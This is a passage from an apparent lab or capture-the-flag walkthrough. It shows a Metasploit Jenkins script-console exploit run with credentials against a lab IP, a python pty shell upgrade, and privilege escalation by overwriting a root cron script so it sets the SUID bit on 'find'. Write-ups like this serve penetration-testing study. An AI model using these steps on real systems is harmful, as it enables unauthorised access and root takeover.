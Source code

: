 msf exploit(jenkins\_script\_console)  \>  set target  1

msf exploit(jenkins\_script\_console)  \>  set rhost  192.168.1.122

msf exploit(jenkins\_script\_console)  \>  set rport  8080

msf exploit(jenkins\_script\_console)  \>  set TARGETURI  /

msf exploit(jenkins\_script\_console)  \>  set USERNAME eder

msf exploit(jenkins\_script\_console)  \>  set PASSWORD vipsu

msf exploit(jenkins\_script\_console)  \>  exploit

![](https://i1.wp.com/1.bp.blogspot.com/-RHNt2m5scaU/W11J1zXMDDI/AAAAAAAAYuY/WHrN1mOgp7w5iG9XwHqruE52If7-1mI8QCLcBGAs/s1600/9.png?w=687&ssl=1)  
We got a meterpreter session! Let’s try and get a teletype here using python’s one-liner shell:  

shell python -c 'import pty;pty.spawn("/bin/bash");'

1

2

shell

python  \-c  'import pty;pty.spawn("/bin/bash");'

Now, we found a shell script in the crontab which was executing automatically after every 5 minutes called CleaningScript.sh and whose job was to remove access log from the system.  

cat /etc/crontab cd /etc/script ls cat CleaningScript.sh

1

2

3

4

cat  /etc/crontab

cd  /etc/script

ls

cat CleaningScript.sh

But even better, it was running with root permissions!  
![](https://i0.wp.com/4.bp.blogspot.com/-zRIazhFrQ5I/W11JuOFtazI/AAAAAAAAYtU/nAHIL74eOlQRnbIJ_e6OFEfsB66DiWpZgCLcBGAs/s1600/10.png?w=687&ssl=1)  
Let’s make a new gedit file called CleaningScript.sh and use the root privilege of CleaningScript.sh file to set a sticky bit on “find.”  

#!/bin/bash chmod u+s /usr/bin/find

1

2

#!/bin/bash

chmod  u+s  /usr/bin/find

